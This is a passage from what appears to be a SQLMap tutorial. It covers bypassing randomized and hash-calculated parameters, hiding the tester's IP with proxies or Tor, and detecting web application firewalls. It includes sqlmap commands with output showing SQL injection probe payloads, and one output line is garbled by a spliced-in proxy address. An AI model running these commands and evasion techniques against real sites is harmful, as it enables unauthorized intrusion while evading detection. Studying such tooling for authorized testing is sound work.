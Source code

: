 `sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI`

    URI: http://www.example.com:80/?id=1&rp=99954
    URI: http://www.example.com:80/?id=1&rp=87216
    URI: http://www.example.com:80/?id=9030&rp=36456
    URI: http://www.example.com:80/?id=1.%2C%29%29%27.%28%28%2C%22&rp=16689
    URI: http://www.example.com:80/?id=1%27xaFUVK%3C%27%22%3EHKtQrg&rp=40049
    URI: http://www.example.com:80/?id=1%29%20AND%209368%3D6381%20AND%20%287422%3D7422&rp=95185

### Calculated Parameter Bypass

Another similar mechanism is where a web application expects a proper parameter value to be calculated based on some other parameter value(s). Most often, one parameter value has to contain the message digest (e.g. `h=MD5(id)`) of another one. To bypass this, the option `--eval` should be used, where a valid Python code is being evaluated just before the request is being sent to the target:

`sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI`

    URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
    URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
    URI: http://www.example.com:80/?id=9061&h=4d7e0d72898ae7ea3593eb5ebf20c744
    URI: http://www.example.com:80/?id=1%2C.%2C%27%22.%2C%28.%29&h=620460a56536e2d32fb2f4842ad5a08d
    URI: http://www.example.com:80/?id=1%27MyipGP%3C%27%22%3EibjjSu&h=db7c815825b14d67aaa32da09b8b2d42
    URI: http://www.example.com:80/?id=1%29%20AND%209978%socks4://177.39.187.70:33283ssocks4://177.39.187.70:332833D1232%20AND%20%284955%3D4955&h=02312acd4ebe69e2528382dfff7fc5cc

### IP Address Concealing

In case we want to conceal our IP address, or if a certain web application has a protection mechanism that blacklists our current IP address, we can try to use a proxy or the anonymity network Tor. A proxy can be set with the option `--proxy` (e.g. `--proxy="socks4://177.39.187.70:33283"`), where we should add a working proxy.

In addition to that, if we have a list of proxies, we can provide them to SQLMap with the option `--proxy-file`. This way, SQLMap will go sequentially through the list, and in case of any problems (e.g., blacklisting of IP address), it will just skip from current to the next from the list. The other option is Tor network use to provide an easy to use anonymization, where our IP can appear anywhere from a large list of Tor exit nodes. When properly installed on the local machine, there should be a SOCKS4 proxy service at the local port 9050 or 9150. By using switch `--tor`, SQLMap will automatically try to find the local port and use it appropriately.

If we wanted to be sure that Tor is properly being used, to prevent unwanted behavior, we could use the switch `--check-tor`. In such cases, SQLMap will connect to the https://check.torproject.org/ and check the response for the intended result (i.e., Congratulations appears inside).

### WAF Bypass

Whenever we run SQLMap, As part of the initial tests, SQLMap sends a predefined malicious looking payload using a non-existent parameter name (e.g. `?pfov=...`) to test for the existence of a WAF (Web Application Firewall). There will be a substantial change in the response compared to the original in case of any protection between the user and the target. For example, if one of the most popular WAF solutions (ModSecurity) is implemented, there should be a `406 - Not Acceptable` response after such a request.
